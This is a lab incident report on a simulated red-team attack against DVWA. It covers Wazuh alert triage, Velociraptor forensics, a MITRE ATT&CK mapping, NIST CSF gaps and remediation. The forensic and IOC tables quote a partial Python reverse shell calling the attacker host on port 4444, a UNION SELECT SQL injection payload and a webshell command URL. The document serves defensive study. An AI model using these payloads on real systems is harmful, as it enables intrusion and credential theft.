





# Simulation 1: DVWA – SQL Injection & Command Injection

## 1. Executive Summary

**Date of Incident:** 2026-07-29  
**Attacker IP:** 192.168.163.164 (Kali Linux – Attacker Zone)  
**Target IP:** 192.168.11.177 (DMZ-Web / DVWA)  
**Vulnerabilities Exploited:**  
- SQL Injection (CWE-89) – extracted password hashes  
- Command Injection (CWE-77) – reverse shell as `www-data`  

A Red Team operator successfully compromised the DMZ‑web server via the Damn Vulnerable Web Application (DVWA) through two distinct attack vectors. The initial foothold was achieved via a UNION-based SQL injection in the `User ID` field, extracting password hashes for all application users, including the administrator (`admin:5f4dcc3b5aa765d61d8327deb882cf99`). Persistence was established via a webshell (`shell.php`), defacement of the homepage, and multiple persistence artifacts.

Privilege escalation to `root` was attempted but failed due to system hardening (no exploitable SUID binaries, no sudo misconfigurations, read-only cron directories). The attacker maintained a low-privilege reverse shell. Network segmentation held – no lateral movement was observed.

**Detection:** Wazuh triggered alerts for SQL injection (Rule 31106) and reconnaissance (Rule 31151).  
**Investigation:** Velociraptor confirmed compromise via process listing, file system artifacts, and network connections.

---

## 2. SOC Triage (Wazuh Alerts)

### 2.1 – Alerts Triggered

| Rule ID | Description | MITRE Tactic | Status |
|---------|-------------|--------------|--------|
| 31106 | Web attack returned code 200 (success) | T1190 (Initial Access) | ✅ True Positive |
| 31164 | SQL injection attempt | T1190 (Initial Access) | ✅ True Positive |
| 31151 | Multiple web server 400 errors (nmap scan) | T1595.002 (Reconnaissance) | ✅ True Positive |
| 31101 | Web server 400 error code | T1595.002 (Reconnaissance) | ✅ True Positive |


 <br>



### 2.2 – Detection Gap & Custom Rules

**Gap Identified:**  
No alert specifically for data exfiltration via `UNION SELECT`. Rule 31106 only detects the HTTP 200 response, not the actual extraction.

**Proposed Custom Rule** (add to `/var/ossec/etc/rules/local_rules.xml`):

```xml
<group name="attack,sqli">
  <rule id="100100" level="12">
    <if_sid>31106</if_sid>
    <field name="data.url" type="pcre2">(?i)UNION.*SELECT.*FROM</field>
    <description>SQL Injection data exfiltration detected: $(data.url)</description>
  </rule>
</group>
```

### 2.3 – Time to Detect (TTD)

- **Attack Time:** `2026-07-29 09:22:02` (from Apache access logs)  
- **Wazuh Alert Time:** `2026-07-29 09:22:02` (same timestamp)  
- **TTD:** **~0 seconds** (real-time detection via Apache logs)

---

## 3. DFIR Investigation (Velociraptor)

### 3.1 – Methodology

Velociraptor VQL queries were executed on the `dmz` client to collect:

- Running processes
- File system modifications
- Network connections
- Persistence mechanisms
- Credential artifacts

### 3.2 – Key VQL Queries

| Purpose | VQL Query |
|---------|-----------|
| Process listing | `SELECT Pid, Name, CommandLine, Exe, User FROM pslist()` |
| Find backdoors | `SELECT FullPath, Size, Mtime, SHA256(FullPath) AS SHA256 FROM glob(globs='/var/www/html/**/*.php', access='r') WHERE Mtime > "2026-07-29T09:00:00Z"` |
| Network connections | `SELECT * FROM netstat() WHERE RemoteAddress =~ '192.168.163.164'` |
| Read files | `SELECT Data FROM read_file(filename='/tmp/stolen_creds.txt')` |

### 3.3 – Findings

#### Processes (Reverse Shell)

| PID | Name | CommandLine | User |
|-----|------|-------------|------|
| 3612 | sh | `sh -c -- ping -c 4 127.0.0.1 && python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect("192.168.163.164",4444);...'` | www-data |
| 3614 | python3 | Python reverse shell socket connection | www-data |
| 3652 | bash | `/bin/bash` (upgraded TTY) | www-data |




**Conclusion:** The attacker maintained an active reverse shell to `192.168.163.164:4444`.

#### File System Artifacts

| Path | Purpose | SHA256 (from Velociraptor) |
|------|---------|----------------------------|
| `/var/www/html/shell.php` | Webshell (PHP system() command) | `[hash]` |
| `/var/www/html/DVWA/backdoor.php` | Hidden backdoor | `[hash]` |
| `/var/www/html/index.html` | Defaced homepage (`HACKED BY RED TEAM`) | – |
| `/tmp/stolen_creds.txt` | Extracted password hashes | – |
| `/tmp/compromised_marker.txt` | Compromise marker | – |
| `/tmp/.cache/persistence.sh` | Persistence script (reverse shell loop) | – |
| `/var/www/.bashrc` | Modified with backdoor alias | – |
| `/etc/cron.d/` | Attempted cron persistence (read-only) | – |

#### Network Connections

- **Active outbound connection** from `192.168.11.177` to `192.168.163.164:4444` (reverse shell).
- **No lateral movement** observed.

### 3.4 – Chronology

| Time | Event |
|------|-------|
| `09:08` | nmap reconnaissance scan (Rule 31151) |
| `09:15` | Web enumeration (400 errors, Rule 31101) |
| `09:21` | SQL injection attempts (Rule 31164) |
| `09:22:02` | Successful SQLi data exfiltration (Rule 31106) |
| `09:23` | Command Injection → reverse shell established |
| `09:24` | Webshell uploaded (`/var/www/html/shell.php`) |
| `09:25` | Defacement (`HACKED BY RED TEAM`) |
| `09:26` | Persistence artifacts created (cron, .bashrc, hidden scripts) |
| `09:27` | Privilege escalation attempted (failed) |
| `09:30` | Velociraptor investigation initiated |

### 3.5 – Privilege Escalation Attempt

| Check | Result |
|-------|--------|
| `sudo -l` | `www-data` has no sudo rights |
| `/etc/passwd` | Read-only (not writable) |
| `/etc/cron.d` | Read-only (cannot add cron jobs) |
| SUID binaries | No exploitable binaries (`find`, `nmap`, `pkexec`) |
| PwnKit (CVE-2021-4034) | Failed (system patched) |

**Conclusion:** Privilege escalation was **unsuccessful**. The system is relatively hardened.

---

## 4. CTI – Threat Intelligence (MITRE ATT&CK)

### 4.1 – MITRE ATT&CK Mapping

| Tactic | Technique ID | Technique Name | Evidence |
|--------|--------------|----------------|----------|
| Reconnaissance | T1595.002 | Vulnerability Scanning | nmap scan detected (Rule 31151) |
| Reconnaissance | T1592.002 | Software Identification | nmap service detection (Apache 2.4.66) |
| Initial Access | T1190 | Exploit Public-Facing Application | SQL injection (Rule 31106) |
| Initial Access | T1203 | Exploitation for Client Execution | Command Injection → reverse shell |
| Execution | T1059.004 | Command and Scripting Interpreter | Python reverse shell execution |
| Persistence | T1505.003 | Web Shell | `/var/www/html/shell.php` |
| Persistence | T1037.003 | Cron Job | Attempted cron entry |
| Persistence | T1546.004 | .bashrc & .profile | Modified `.bashrc` |
| Credential Access | T1110.001 | Password Guessing / Brute Force | Extracted hashes from `users` table |
| Collection | T1005 | Data from Local System | Stolen credentials file (`/tmp/stolen_creds.txt`) |
| Command & Control | T1071.001 | Web Protocols | Reverse shell over TCP port 4444 |
| Command & Control | T1572 | Protocol Tunneling | Reverse shell using Python socket |
| Defense Evasion | T1027 | Obfuscated Files or Info | Python one-liner, obfuscated webshell |




### 4.2 – Indicators of Compromise (IOCs)

| Type | Value |
|------|-------|
| Source IP | `192.168.163.164` |
| Target IP | `192.168.11.177` |
| Reverse Shell Port | `4444` |
| SQL Injection Payload | `' UNION SELECT user, password FROM users-- -` |
| Webshell URL | `http://192.168.11.177/shell.php?cmd=id` |
| Defaced Index | `HACKED BY RED TEAM` |
| **File Hashes (SHA256)** | *(from Velociraptor)* |
| – `shell.php` | `[hash]` |
| – `backdoor.php` | `[hash]` |

### 4.3 – Executive Summary (Mandiant‑style)

> On 29 July 2026, a Red Team operator executed a multi‑stage attack against the DMZ‑web server (192.168.11.177) hosting the Damn Vulnerable Web Application (DVWA). The attacker exploited a SQL injection vulnerability to extract password hashes, then leveraged a command injection flaw to obtain a reverse shell as the `www-data` user. A webshell was deployed for persistent access, and the homepage was defaced. Attempts to escalate privileges to root were unsuccessful. Wazuh detected the SQL injection and reconnaissance activity in real‑time (TTD ≈ 0 seconds). Velociraptor forensics confirmed the compromise, revealing active reverse shell processes, file system artifacts, and outbound network connections to the attacker-controlled IP (192.168.163.164). Network segmentation held – no lateral movement to other zones was observed.

---

## 5. GRC – Compliance & Risk Assessment (NIST CSF 2.0)

### 5.1 – NIST CSF 2.0 Mapping

| Function | Category | Subcategory | Observation | Status |
|----------|----------|-------------|-------------|--------|
| **Govern** | GV.OC | GV.OC‑05: Cybersecurity policy is established | No WAF or input validation | 🔴 Gap |
| **Identify** | ID.RA | ID.RA‑01: Vulnerabilities are identified | DVWA intentionally vulnerable | 🔴 Gap |
| **Protect** | PR.PS | PR.PS‑04: Software is maintained | Outdated vulnerable web app | 🔴 Gap |
| **Protect** | PR.AT | PR.AT‑01: Personnel are aware of risks | No security awareness training | 🟡 Partial |
| **Detect** | DE.CM | DE.CM‑03: Network activity is monitored | Wazuh detected SQLi (Rule 31106) | ✅ Comply |
| **Detect** | DE.CM | DE.CM‑07: Personnel are trained on detection | SOC analyst triaged alerts | ✅ Comply |
| **Respond** | RS.AN | RS.AN‑04: Impact is estimated | Data exfiltration confirmed | ✅ Comply |
| **Respond** | RS.CO | RS.CO‑02: Internal communications | Incident reported to SOC | ✅ Comply |
| **Recover** | RC.RP | RC.RP‑01: Recovery plan is executed | Not yet (baseline phase) | ⏳ Pending |

### 5.2 – Segmentation Assessment

| Source → Destination | Result | Proof |
|----------------------|--------|-------|
| DMZ (11.177) → Security_LAN (9.133) | ❌ Blocked | OPNsense default deny |
| DMZ (11.177) → Server_LAN (8.1) | ❌ Blocked | OPNsense default deny |
| DMZ (11.177) → Legacy (6.1) | ❌ Blocked | OPNsense default deny |
| DMZ (11.177) → Internet | ❌ Blocked | No outbound NAT |




**Conclusion:** Network segmentation **held**. No lateral movement was possible from the DMZ to other zones. This demonstrates effective network segmentation controls.

### 5.3 – Remediation Plan

| Priority | Action | Owner |
|----------|--------|-------|
| **High** | Remove DVWA from production or enforce strict WAF rules (ModSecurity) | Security Team |
| **High** | Implement input validation (parameterized queries) for all web applications | Dev Team |
| **Medium** | Deploy ModSecurity WAF on DMZ web server | Security Team |
| **Medium** | Add SIEM correlation rule for SQLi data exfiltration (Rule 100100) | SOC Analyst |
| **Medium** | Conduct security awareness training for developers (OWASP Top 10) | HR / Security |
| **Low** | Conduct regular penetration testing on DMZ hosts | Security Team |

---

## 6. Phase B – Improvement Roadmap

### 6.1 – SOC (Wazuh)

| Improvement | Description |
|-------------|-------------|
| **Custom Rules** | Add Rule 100100 for SQLi data exfiltration detection. |
| **WAF Integration** | Integrate ModSecurity logs into Wazuh for web attack detection. |
| **Alert Correlation** | Correlate SQLi alerts with data exfiltration events (Rule 100100). |

### 6.2 – DFIR (Velociraptor)

| Improvement | Description |
|-------------|-------------|
| **Webshell Hunt** | Create a Velociraptor hunt for `.php` files in `/var/www/html` created in the last 24 hours. |
| **Process Monitoring** | Monitor for unexpected `python`, `bash`, or `nc` processes on DMZ hosts. |

### 6.3 – CTI (MISP)

| Improvement | Description |
|-------------|-------------|
| **MISP Event** | Create a MISP event for the attacker IP (`192.168.163.164`) and SQLi payloads. |
| **IOC Sharing** | Share hashes of webshells and backdoors with other analysts. |

### 6.4 – GRC (Privilege & Segmentation)

| Improvement | Description |
|-------------|-------------|
| **DMZ Hardening** | Remove unnecessary services (e.g., `gcc`, `python` if not needed) from DMZ hosts. |
| **WAF Deployment** | Deploy ModSecurity WAF on the DMZ web server to block SQLi and command injection attempts. |
| **Input Validation** | Enforce parameterized queries for all web applications. |

### 6.5 – Automation (Shuffle / SOAR)

| Improvement | Description |
|-------------|-------------|
| **Alert Automation** | Automate alerts for SQLi data exfiltration to the SOC via email/teams. |
| **Blocking** | Use Shuffle to automatically block attacker IPs in OPNsense upon detection. |


---

## 7. Conclusion

The DMZ‑web server was successfully compromised via DVWA vulnerabilities. The attacker obtained a reverse shell as `www-data`, established persistence, and exfiltrated credentials. Privilege escalation was prevented by system hardening. Wazuh detected the attack in real‑time, and Velociraptor provided detailed forensic evidence.

**Key Takeaways:**
- **Detection worked** – Wazuh alerted on SQL injection and reconnaissance in real‑time.
- **Segmentation held** – No lateral movement from DMZ to other zones.
- **Hardening worked** – Privilege escalation failed due to proper system configuration.

**Next Steps:**
- Proceed to **Simulation 2** (Metasploitable2 – pivot test)
- Proceed to **Simulation 3** (WannaCry – ransomware detection)

---
*Report Generated by SOC Analyst & DFIR Investigator – Phase A Baseline Assessment*
